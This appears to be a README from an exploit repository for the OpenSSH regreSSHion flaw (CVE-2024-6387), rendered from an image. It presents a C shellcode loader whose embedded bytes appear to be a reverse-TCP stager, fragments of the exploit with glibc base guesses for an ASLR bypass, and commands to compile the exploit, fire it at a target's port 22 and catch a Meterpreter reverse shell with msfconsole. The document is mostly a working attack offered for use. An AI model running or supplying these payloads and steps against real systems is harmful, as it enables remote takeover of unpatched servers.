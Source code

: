 ```c
#include <stdio.h>

// A placeholder of your custom payload 
const char shellcode[] =
"\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
"\x6a\x22\x41\x5a\x6a\x07\x5a\x0f\x05\x48\x85\xc0\x78\x51"
"\x6a\x0a\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01"
"\x5e\x0f\x05\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00"
"\x27\x0f\xc0\xa8\x38\x64\x51\x48\x89\xe6\x6a\x10\x5a\x6a"
"\x2a\x58\x0f\x05\x59\x48\x85\xc0\x79\x25\x49\xff\xc9\x74"
"\x18\x57\x6a\x23\x58\x6a\x00\x6a\x05\x48\x89\xe7\x48\x31"
"\xf6\x0f\x05\x59\x59\x5f\x48\x85\xc0\x79\xc7\x6a\x3c\x58"
"\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e\x5a\x0f\x05\x48\x85\xc0"
"\x78\xed\xff\xe6";

int main() {
    // Execute shellcode
    printf("Executing shellcode...\n");
    void (*sc)() = (void(*)())shellcode;
    sc();

    return 0;
}

```

### Actual payload
```c
#include <stdio.h>
 

#define MAX_PACKET_SIZE (256 * 1024)
#define LOGIN_GRACE_TIME 120
#define MAX_STARTUPS 100
#define CHUNK_ALIGN(s) (((s) + 15) & ~15)

// Possible glibc base addresses (for ASLR bypass)
uint64_t GLIBC_BASES[] = { 0xb7200000, 0xb7400000 };
int NUM_GLIBC_BASES = sizeof (GLIBC_BASES) / sizeof (GLIBC_BASES[0]);

// Shellcode placeholder (replace with actual shellcode)
unsigned char shellcode[] = "\x90\x90\x90\x90";
```
### Compiling and initiating payload
```bash
# compiling payload
$ gcc -shared -o exploit.so -fPIC 7etsuo-regreSSHion.c 
```
### Executing payload
```bash
# Once you receive a successful exploitation message, the msfconsole automatically initiates a Meterpreter session.
$ python3 CVE-2024-6387.py --exploit 192.168.56.101 --p 22 
```
### Catching payload 
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x64/meterpreter/reverse_tcp; set LHOST 192.168.56.100; set LPORT 9999; exploit -j"
```
